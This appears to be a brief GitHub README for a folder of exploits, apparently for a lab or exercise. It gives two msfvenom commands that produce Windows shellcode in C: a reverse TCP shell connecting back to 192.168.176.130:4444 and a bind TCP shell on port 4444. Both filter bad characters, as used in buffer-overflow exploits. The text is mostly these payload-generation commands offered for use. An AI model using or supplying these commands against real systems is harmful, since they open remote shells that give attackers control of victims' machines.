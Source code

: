 This folder contains the exploit for both reverse_shell and bind_shell.

Reverse_Shell won't work for you.(:D) But try bind_tcp it will work.

## Command used to create Reverse_shell 

**msfvenom -p windows/shell_reverse_tcp lhost=192.168.176.130 lport=4444 -f c -a x86 -b "\x00\x0a\x0d" EXITFUNC=thread**[Change lhost and lport accordingly.]


## Command used to create Bind_shell

**msfvenom -p windows/shell_bind_tcp lport=4444 -a x86 -b "\x00\x0a\x0d" -f c EXITFUNC=thread**



